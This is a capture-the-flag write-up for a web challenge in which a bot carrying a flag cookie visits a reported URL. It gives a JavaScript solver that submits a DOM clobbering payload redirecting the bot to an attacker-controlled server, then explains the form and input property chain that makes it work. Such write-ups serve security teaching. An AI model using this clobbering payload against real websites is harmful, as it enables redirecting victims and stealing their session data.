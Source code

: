 In this challenge, you can report a URL and then a bot accesses it with a flag cookie.

### Solution

This challenge is a DOM Clobbering puzzle. The goal is as follows:

- No errors occur.
- `window2 === window3` is true.
- `window1.location.origin` can be changed as you like. So, you can make the bot redirect to your server.

My intended DOM Clobbering:
```javascript
const SECCON_URL = /* the URL of the challenge server */;
const HOOK_URL = /* the URL of your server */;

const main = async () => {
  const view = `
      <form>
        <input id="form" name="form">
      </form>
      <a id="form" name="location" href="${HOOK_URL}"></a>
    `;
  const reportUrl = `http://web:3000/?window=form&view=${encodeURIComponent(view)}`;
  const body = new URLSearchParams();
  body.append("url", reportUrl);

  await fetch(`${SECCON_URL}/report`, {
    method: "POST",
    body,
  });
};
main();
```

The mechanism of this DOM Clobbering in Chrome is as follows.

Now, consider the following HTML and `?window=form`:
```html
<form>
  <input id="form">
</form>
<a id="form" name="location" href="https://example.com"></a>
```

`window.form` is an instance of `HTMLCollection` because there are multiple elements with `id="form"`. The instance has the `<input>` element and the `<a>` element.

1. `window.form.form` is the `<input>` element because it has `id="form"` attribute.
1. `window.form.form.form` is the `<form>` element because `HTMLInputElement` has `form` property.
    - ref. https://developer.mozilla.org/en-US/docs/Web/API/HTMLInputElement#properties
1. `window.form.form.form.form` is the `<input>` element.
    - ref. https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement#properties
      > Named inputs are added to their owner form instance as properties, and can overwrite native properties if they share the same name (e.g. a form with an input named action will have its action property return that input instead of the form's action HTML attribute).
1. `window.form.form.form.form.form` is the `<form>` element.
1. `window.form.form.form.form.form.form` is the `<input>` element.
1. ...
1. `window2` is the `<input>` element.
1. ...
1. `window3` is the `<input>` element.
